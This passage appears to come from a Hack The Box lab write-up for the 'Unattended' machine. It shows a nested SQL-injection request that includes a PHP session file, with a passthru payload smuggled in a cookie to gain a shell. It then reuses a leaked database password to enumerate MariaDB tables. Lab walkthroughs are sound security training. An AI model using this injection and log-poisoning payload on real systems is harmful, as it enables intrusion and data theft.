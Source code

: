 Call php to execute the shell:
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_0eeec3brj9f8bs109u6ssli5p3%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
Cookie: PHPSESSID=0eeec3brj9f8bs109u6ssli5p3; EXEC=<?php passthru('cd /tmp && php shell.php')?>;
...
```

After a few tries, we now how a meterpreter shell as `www-data`:

![](/img/hax/htb/shell_init.png)

### Privilege Escalation to User

With our `www-data` shell, we find that there is only one other user on the box: `guly`. Permissions are locked down and there is not much that can be done here. 

After some time enumerating and meeting dead ends, recall the database credentials discovered earlier. Use these and `mysql` to connect to the local database to enumerate data that was to slow to enumerate previously. 
```
www-data@unattended:/tmp$ mysql -h localhost -u nestedflanders -p
mysql -h localhost -u nestedflanders -p
Enter password: 1036913cf7d38d4ea4f79b050f171e9fbf3f5e

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 33
Server version: 10.1.37-MariaDB-0+deb9u1 Debian 9.6

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```
```
MariaDB [(none)]> use neddy;
use neddy;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [neddy]> show tables;
show tables;
+-----------------+
| Tables_in_neddy |
+-----------------+
| config          |
| customers       |
| employees       |
| filepath        |
| idname          |
| offices         |
| orderdetails    |
| orders          |
| payments        |
| productlines    |
| products        |
```